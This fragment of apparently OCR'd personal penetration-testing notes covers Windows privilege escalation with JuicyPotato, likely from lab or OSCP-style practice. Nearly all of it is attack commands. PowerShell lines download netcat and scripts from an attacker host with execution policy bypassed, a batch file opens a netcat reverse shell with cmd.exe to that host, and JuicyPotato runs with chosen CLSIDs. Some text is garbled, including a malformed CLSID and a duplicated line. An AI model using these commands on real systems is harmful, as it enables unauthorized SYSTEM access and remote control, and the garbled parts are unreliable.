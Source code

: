 {\$\_.appid -ne \$null}

foreach(\$a in \$CLSID)

{

Write-Host \$a.CLSID

}

Then upload

powershell \"IEX(New-Object
Net.WebClient).downloadFile(\'http://192.168.119.161:8000/GetCLSID1.ps1\',\'C:\\test\\GetCLSID.ps1\')\"
-bypass executionpolicy

Then upload netcat

powershell \"IEX(New-Object
Net.WebClient).downloadFile(\'http://192.168.119.161:8000/nc64.exe\',\'C:\\test\\nc64.exe\')\"
-bypass executionpolicy

Create priv.bat to reverse shell :

C:\\Users\\Public\\nc64.exe -e C:\\windows\\system32\\cmd.exe
192.168.119.161 9003

Upload priv.bat to reverse shell

powershell \"IEX(New-Object
Net.WebClient).downloadFile(\'http://192.168.119.161:8000/priv.bat\',\'C:\\test\\priv.bat\')\"
-bypass executionpolicy

powershell \"IEX(New-Object
Net.WebClient).downloadFile(\'http://192.168.119.161:8000/priv.bat\',\'C:\\test\\priv.bat\')\"
-bypass executionpolicy

JuicyPotato.exe -l 1337 -p C:\\Users\\Public\\Downloads\\shell.exe -t \*
-c

{687e55ca-6621--4c41-b9f1-c0eddc94bb05}

juicypotato.exe -p C:\\tmp\\shell.exe -l 1337 -t \* -c
\'{F087771F-D74F-4C1A-BB8A-E16ACA9124EA}\' -\> another writeup
juicepotato -\>
[[https://medium.com/@kunalpatel920/cyberseclabs-weak-walkthrough-d66d2e47cd82]{.underline}](https://medium.com/@kunalpatel920/cyberseclabs-weak-walkthrough-d66d2e47cd82)

./JuicyPotato.exe -p C:\\test\\priv.bat -l 9003 -t \* -c
\'{FFE1E5FE-F1F0-48C8-953E-72BA272F2744}\' -\>
[[https://hackingandsecurity.blogspot.com/2017/09/oscp-windows-priviledge-escalation.html]{.underline}](https://hackingandsecurity.blogspot.com/2017/09/oscp-windows-priviledge-escalation.html)

**Osp windows pE:**

[[https://payatu.com/blog/suraj/Windows-Privilege-Escalation-Guide]{.underline}](https://payatu.com/blog/suraj/Windows-Privilege-Escalation-Guide)

[[https://hackingandsecurity.blogspot.com/2017/09/oscp-windows-priviledge-escalation.html]{.underline}](https://hackingandsecurity.blogspot.com/2017/09/oscp-windows-priviledge-escalation.html)
